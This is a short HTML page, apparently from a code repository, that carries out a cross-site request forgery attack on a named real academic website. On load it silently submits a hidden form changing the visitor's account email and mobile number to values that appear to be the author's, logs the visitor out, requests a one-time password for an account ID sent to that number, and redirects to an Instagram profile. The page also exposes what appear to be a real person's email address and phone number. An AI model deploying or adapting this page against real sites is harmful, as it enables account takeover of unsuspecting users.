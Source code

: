 

<!-- * This page makes a website vulnerable to CSRF (Cross Site Request Forgery) Attack -->

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Hidden Input Form</title>
</head>
<body>

    <h1>You Explored</h1>
    <iframe style="display:none" name="csrf-frame"></iframe>
    <form action="https://ipsacademy.net/index.php?my_account/manage/change_profile" method="POST" id="form_one">
        <input type="hidden" name="email" value="abhishekganeshe33@gmail.com">
        <input type="hidden" name="mobno" value="9302082006">
    </form>


    <form action="https://ipsacademy.net/index.php?login/get_otp" method="POST" id="form_three">
        <input type="hidden" name="email" value="S56283">
        <input type="hidden" name="mobile" value="9302082006">
    </form>

    

    <script>
        
        window.onload = function() {

            document.getElementById('form_one').submit();
        
            setTimeout(() => {
                window.location.href='https://ipsacademy.net/index.php?login/logout'
            }, 350);     //350

            setTimeout(() => {
                document.getElementById('form_three').submit();
            }, 370);      //370

            setTimeout(() => {
            window.location.href = 'https://www.instagram.com/rishi_ganeshe/?hl=en';
            }, 400);      //400
        } 

    </script>
</body>
</html>
